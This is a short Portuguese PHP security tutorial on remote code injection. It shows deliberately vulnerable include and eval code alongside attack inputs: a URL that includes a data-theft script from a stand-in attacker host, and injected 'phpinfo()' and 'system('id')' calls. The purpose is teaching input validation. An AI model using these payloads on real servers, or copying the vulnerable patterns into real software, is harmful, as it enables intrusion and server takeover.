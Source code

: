 # Remote Code Injection

Outra forma do invasor se aproveitar da confiança no usuário e no péssimo tratamento de dados de entrada e saída é com injeção de código, onde o script pode acabar executando código PHP sem validação.

Tome como exemplo o caso abaixo:

```php
<?php
ini_set('display_errors', true);
$page = $_GET['pagina'];
include $page;
```

Neste exemplo, basta a seguinte chamada para que um arquivo PHP externo seja executado no escopo da aplicação a ser atacada:
```php
http://localhost/teste/include.php?pagina=http://invasor.com.br/roubodedados.php
```

Outra forma de ataque consiste em se aproveitar do mal uso do comando eval.

```php
<?php
$nextPag = '?pagina=';
$pagina = $_GET['pagina'];
eval("$nextPag=$pagina;");
```

As chamadas abaixo executarão códigos para obter dados do servidor ou até mesmo executar comandos do seu sistema
```php
http://localhost/teste/seguranca1.php?pagina=teste.php; phpinfo();
http://localhost/teste/seguranca1.php?pagina=teste.php; system('id')
```

Mais uma vez é importante ressaltar a importância em não confiar no usuário e muito menos nos dados que serão enviados para o sistema, sendo essencial filtrar e validar todo dado de entrada e saída.